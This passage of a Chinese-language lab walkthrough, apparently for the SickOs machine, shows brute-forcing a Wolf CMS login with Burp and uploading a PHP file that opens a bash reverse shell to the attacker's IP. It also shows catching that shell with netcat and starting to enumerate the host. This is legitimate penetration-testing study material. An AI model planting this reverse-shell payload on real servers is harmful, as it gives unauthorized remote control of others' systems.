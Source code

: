     网路搜索默认账号密码尝试，登陆失败
    
    使用burp进行爆破，指定账号为`admin` ，通过密码字典爆破
    
    爆破成功，账号密码都是 `admin`
    

## 获得初级shell

- 登陆进去后寻找可利用点，找到 `uploadfile`
    
    在 `file`→`Uploadfile`
    
- 上传反弹shell代码文件
    
    ```php
    //getshell.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.75.131/1234 0>&1'");?>
    ```
    
- 上传后点击文件，回显文件保存在 `/public/getshell.php`
    
    ![image.png](image%2014.png)
    
- 一步一步尝试发现文件在 `http://192.168.75.136/wolfcms/public/getshell.php`
    
    `kali` 开启监听
    
    ```php
    nc -lvp 1234                                                     
    listening on [any] 1234 ...
    ```
    
    访问 `http://192.168.75.136/wolfcms/public/getshell.php`
    
    反弹shell成功
    
- 查看其权限
    
    ```php
    listening on [any] 1234 ...
    192.168.75.136: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.136] 52339
    //
    www-data@SickOs:/var/www/wolfcms/public$ dpkg -l
    ...
    //
    www-data@SickOs:/var/www/wolfcms/public$ sudo -l
    sudo: no tty present and no askpass program specified
    Sorry, try again.
    sudo: no tty present and no askpass program specified
    Sorry, try again.
    sudo: no tty present and no askpass program specified
    Sorry, try again.
    sudo: 3 incorrect password attempts
    //
    www-data@SickOs:/var/www/wolfcms/public$ uname -a
    Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
    ```
    